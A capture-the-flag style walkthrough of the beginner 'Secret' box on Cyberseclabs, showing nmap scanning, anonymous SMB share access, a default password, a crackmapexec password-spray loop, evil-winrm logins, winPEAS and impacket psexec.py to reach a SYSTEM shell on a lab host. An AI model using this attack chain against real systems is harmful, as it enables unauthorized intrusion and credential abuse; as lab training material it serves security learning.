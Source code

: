 In this walkthrough, we'll go over a beginner level box called ***Secret*** on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Secret IP](secretIP.png)

Let's start the scanning process with nmap:
```bash
nmap -A -T4 -p- 172.31.1.4
```
![Secret nmap](secretnmap.png)

We can look at the smb to see if we can list any of the shares `smbclient -L 172.31.1.4`:

![Secret smbclient](secretsmbclient.png)

We can see that "Office_Share" is open for anonymous access `smbclient \\\\172.31.1.4\\Office_Share`:

![Secret share](secretofficeshare.png)

We don't seem to be able to get into any of the users' folders. However, the template folder reveals an important piece of information which is "Default_Password.txt":

![Secret templates](secrettemplates.png)

The file has a password of ***SecretOrg!***:

![Secret password](secretpassword.png)

At this point, we can try to bruteforce the smb login with all the users we have found. We can put different formats every user:
```bash
bendover
bdover
b.dover
ben.dover
```
We can do this for every user and then user crackmapexec `for user in $(cat secret-users.txt);do crackmapexec smb secret.csl -u "$user" -p 'SecretOrg!';done`:

![Secret CME](secretcme.png)

It looks like we have found a valid user ***jcakes/SecretOrg!***. We can try to log in with evil-winrm `evil-winrm -i 172.31.1.4 -u jcakes -p 'SecretOrg!'`:

![Secret Evil-Winrm](secretevil-winrm.png)

We can run winPEASany.exe on this machine and that find another interesting artifact which is another login information:

![Secret winPEAS](secretwinPEAS.png)

Again, we can try to log in with this set of credentials via evil-winrm `evil-winrm -i 172.31.1.4 -u bdover -p 'vF4$x9#z:-eT~Fy'`:

![Secret bdover](secretbdover.png)

However, this user didn't have any access to the administrator destkop. Although, we can use psexe.py from impacket `sudo python3 psexec.py secret.csl/bdover:'vF4$x9#z:-eT~Fy'@172.31.1.4`:

![Secret psexec.py](secretroot.png)

And we receive a shell as ***NT AUTHORITY\SYSTEM***.

I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
